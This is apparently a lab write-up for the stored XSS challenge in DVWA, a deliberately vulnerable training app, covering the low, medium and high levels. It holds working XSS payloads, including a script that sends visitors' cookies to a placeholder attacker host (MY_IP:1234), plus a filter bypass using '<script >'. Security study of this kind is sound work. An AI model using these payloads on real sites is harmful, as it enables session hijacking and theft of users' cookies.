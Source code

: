 # Difficulty - Low

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/XSS%20Stored/Sources/low.php)

Because there are no filters, both fields (name and message) are vulnerable to xss.
We can do something simple like: 

```
Username: whatever
Message: <img src=x onerror=alert(1)>
```
And now, because is stored, when any other user will access this page it wil get the alert pop-up.

So, we can do something like that (after we modify the `maxlength` value from html):
```JS
Username: whatever
Message: <script>var url = "http://MY_IP:1234/" + document.cookie; var xhttp = new XMLHttpRequest(); xhttp.open("GET", url, true);xhttp.send();</script>
```

Then we listen on that port (1234 in my case) and whenever somebody access that site we will get his cookies.
![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/XSS%20Stored/Pictures/1.png)


# Difficulty - Medium

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/XSS%20Stored/Sources/medium.php)


I tried to add `<img src=x>` to both input fields.
Only the `name` field is vulnerable.
![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/XSS%20Stored/Pictures/2.png)

But it is not vulnerable at `<script>` tag, because the input is filtered. The `<script>` tag is removed. So use the `<script >` tag (same, but with a space between < & >).



# Difficulty - High

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/XSS%20Stored/Sources/high.php)

I tried: 
```
Username: <img src=x onerror=alert(1)>
Message: <img src=x onerror=alert(2)>
```
and only the `alert(1)` was executed. So the username input field is vulnerable.



# Difficulty - Impossible

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/XSS%20Stored/Sources/impossible.php)

